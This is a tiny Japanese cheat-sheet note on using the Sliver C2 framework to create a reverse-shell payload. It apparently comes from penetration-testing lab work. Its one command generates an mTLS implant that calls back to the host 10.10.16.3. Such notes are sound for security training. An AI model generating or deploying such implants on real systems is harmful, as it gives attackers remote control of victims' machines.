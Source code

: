 # # Sliver
## ## Reverseshellペイロードの作成の仕方
- mtls
```sh
 generate --mtls 10.10.16.3 --skip-symbols
```

